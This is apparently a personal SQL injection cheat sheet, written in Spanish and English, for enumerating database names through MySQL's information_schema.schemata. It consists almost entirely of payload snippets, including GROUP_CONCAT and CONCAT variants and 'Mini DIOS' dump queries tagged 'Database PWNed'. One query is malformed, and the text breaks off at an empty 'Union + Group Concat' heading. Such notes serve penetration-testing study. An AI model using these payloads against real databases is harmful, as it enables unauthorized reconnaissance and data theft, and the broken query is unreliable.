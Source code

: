 # SQLi: schema, schemata & DIOS

## Fz3r0 SQLi: `schema_name` (Databases) mini bible

````sql
## Schema Name AKA Databases Names Dump
SELECT schema_name FROM information_schema.schemata;

---

## Group Concat Basic Query
SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata;

## Limitando a 1 en caso que solo deje arrojar un resultado
SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata limit 0,1;

---

## Concat Basic Query
SELECT CONCAT(schema_name) FROM information_schema.schemata;

## Mini DIOS: DB Enum (schema enum)
SELECT CONCAT('Database PWNed : ',(schema_name)) FROM information_schema.schemata;

---
````

## `schema name` from `information schema`

### Query basic

````sql
## Schema Name AKA Databases Names Dump
select schema_name CONCAT information_schema.schemata;
````

---

### Group Concat

#### Basic

````sql
## Group Concat Basic Query
SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata;

## Limitando a 1 en caso que solo deje arrojar un resultado
SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata limit 0,1;
````

#### Variantes

````sql
## Agregando un string para separador en forma de ':'
SELECT GROUP_CONCAT(schema_name SEPARATOR ' : ') FROM information_schema.schemata;

## Mini DIOS
SELECT GROUP_CONCAT('Database PWNed: ',schema_name) FROM information_schema.schemata;
````

---

### Concat

#### Basic

````sql
## Concat Basic Query
SELECT concat(schema_name) FROM information_schema.schemata;
````

#### Variantes

````sql
## Agregando un string para separador en forma de ':'
SELECT concat(schema_name, ' : ') FROM information_schema.schemata;

## Mini DIOS: DB Enum (schema enum)
SELECT concat('Database PWNed : ',(schema_name)) FROM information_schema.schemata;
````

---

### Union + Group Concat
